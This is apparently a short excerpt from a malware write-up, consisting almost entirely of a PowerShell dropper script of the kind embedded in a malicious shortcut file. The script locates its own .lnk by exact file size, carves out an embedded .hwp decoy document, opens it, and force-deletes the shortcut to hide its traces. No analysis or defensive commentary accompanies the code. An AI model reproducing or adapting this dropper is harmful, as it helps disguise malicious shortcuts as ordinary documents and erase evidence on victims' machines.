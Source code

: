 $lk=ls -Path '.\' -filter '*.lnk';

for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
$n=$lk.Replace('.lnk','.hwp');
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {ac -path "C:\Users\user\Downloads\1.txt" $lk[$a].directory;$lk=$lk[$a].name;break}}
};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);

&".\\$fsdf";

ri ".\\$lk" -force;





